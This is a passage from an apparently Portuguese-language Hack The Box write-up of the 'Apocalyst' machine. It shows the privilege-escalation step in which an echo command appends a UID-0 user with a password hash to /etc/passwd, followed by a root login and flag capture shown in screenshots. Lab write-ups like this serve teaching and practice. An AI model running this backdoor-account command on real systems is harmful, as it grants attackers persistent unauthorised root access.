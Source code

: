 Inserimos dentro do passwd

> echo "apoc:\$1\$apoc\$rT90d/Owh39NjPJCyG6mk1:0:0:apoc:/root:/bin/bash" >> /etc/passwd

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-apocalyst/A_ssl1.png)

### Logamos como root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-apocalyst/A_ssl2.png)

### Pegamos as flags de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-apocalyst/A_root.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-apocalyst/A_user.png)